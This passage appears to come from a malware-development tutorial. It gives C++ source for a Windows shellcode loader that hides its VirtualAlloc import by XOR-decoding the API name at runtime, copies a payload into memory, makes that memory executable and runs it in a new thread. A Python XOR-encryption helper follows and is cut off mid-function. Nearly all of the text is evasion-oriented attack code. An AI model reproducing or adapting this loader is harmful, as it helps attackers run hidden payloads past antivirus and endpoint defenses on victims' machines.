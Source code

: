 ```cpp
//   SIZE_T dwSize,
//   DWORD  flAllocationType,
//   DWORD  flProtect
// );

LPVOID (WINAPI * pVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);

void XOR(char * data, size_t data_len, char * key, size_t key_len) {
    int j;
    j = 0;
    for (int i = 0; i < data_len; i++) {
            if (j == key_len - 1) j = 0;
            data[i] = data[i] ^ key[j];
            j++;
    }
}

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;


  XOR((char *) cVirtualAlloc, cVirtualAllocLen, mySecretKey, sizeof(mySecretKey));

  // Allocate a memory buffer for payload
  pVirtualAlloc = GetProcAddress(GetModuleHandle("kernel32.dll"), cVirtualAlloc);

  my_payload_mem = pVirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) my_payload_mem, 0, 0, 0);
	WaitForSingleObject(th, -1);
  }
  return 0;
}

```

And use python script to XOR encrypt our function name and replace:
```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
    key = str(key)
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
```